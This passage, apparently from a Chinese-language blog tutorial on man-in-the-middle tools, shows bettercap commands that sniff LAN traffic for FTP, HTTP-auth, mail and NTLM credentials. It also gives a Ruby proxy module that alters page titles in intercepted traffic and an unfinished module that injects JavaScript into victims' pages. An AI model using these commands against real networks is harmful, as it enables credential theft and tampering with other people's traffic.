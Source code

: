 另外在github仓库里还有inline脚本的example，文档也很齐全。除了inline调用以外，我们甚至可以使用libmproxy
来自己用python写一个mitmproxy！而且实现起来也非常简单，因为mitmproxy本身大部分功能都是基于libmproxy里实现的。

## "更好的ettercap"——bettercap

很多人可能会问，既然有了ettercap，干嘛还要再弄一个差不多的东西？其实按照bettercap作者的说法，ettercap虽然是个很棒的工具，
但是已经过时了，而且似乎维护也是有气无力。ettercap在大型网络中相当不稳定，在操纵http的payload时往往还需要别的工具来辅助，
比如上面提到的mitmproxy。因此bettercap就诞生啦！

bettercap的操作也十分简单明了，比如在局域网中嗅探所有数据：

    bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

其中-P指定加载的parsers，也可以不指定，默认和ettercap一样全部加载。也可以将数据保存在本地：

    bettercap --sniffer --sniffer-pcap=http.pcap --sniffer-filter "tcp and dst port 80"

--sniffer-filter参数表示的意思很明显，即只保存目的端口为80的tcp数据（即http）。值得一提的是，这里没有指定网关和网络接口，因为
用的都是默认值，即当前网关和当前默认网卡，当然也可以分别用-G 和 -I 指定。

### 模块化的透明代理

上面讲mitmproxy的时候已经介绍了代理，而bettercap正好也可以实现类似的功能，在本地启动一个中间人代理服务器并且将数据流量都通过代理收发。

    bettercap --proxy --proxy-port=1234

指定代理端口为1234，默认为8080。这条命令默认只记录http请求，如果指定--proxy-module参数就可以加载你自定义的模块来操纵流量。
自定义的拓展模块用Ruby写成，语法很简单，比如一个修改网页title的例子`hack_title.rb`如下：

    class HackTitle < Proxy::Module  
      def on_request( request, response )
        # is it a html page?
        if response.content_type =~ /^text\/html.*/
          Logger.info "Hacking http://#{request.host}#{request.url} title tag"
          # make sure to use sub! or gsub! to update the instance
          response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
        end
      end
    end  
    
调用方法

    bettercap --proxy --proxy-module=hack_title.rb

### 内嵌http服务器

其实这个选项比较鸡肋，不过也是bettercap为了达到它所说的“只用一个工具”的效果吧。其主要用途就是给payload注入JS的时候需要从服务器去请求，
bettercap可以配合proxy module很容易一步实现：

    bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb

其中inject.rb的代码如下：

    class InjectJS < Proxy::Module  
      def on_request( request, response )
        # is it a html page?
        if response.content_type =~ /^text\/html.*/
          Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
          # get the local interface address and HTTPD port
          localaddr = Context.get.ifconfig[:ip_saddr]
          localport = Context.get.options[:httpd_port]
          # inject the js

[mitm-1]: http://pannzh.github.io/tech/mitm/2015/11/01/mitm-detail-1.html
[robert]: https://github.com/robertdavidgraham
[my-hamster]: https://github.com/pannzh/hamster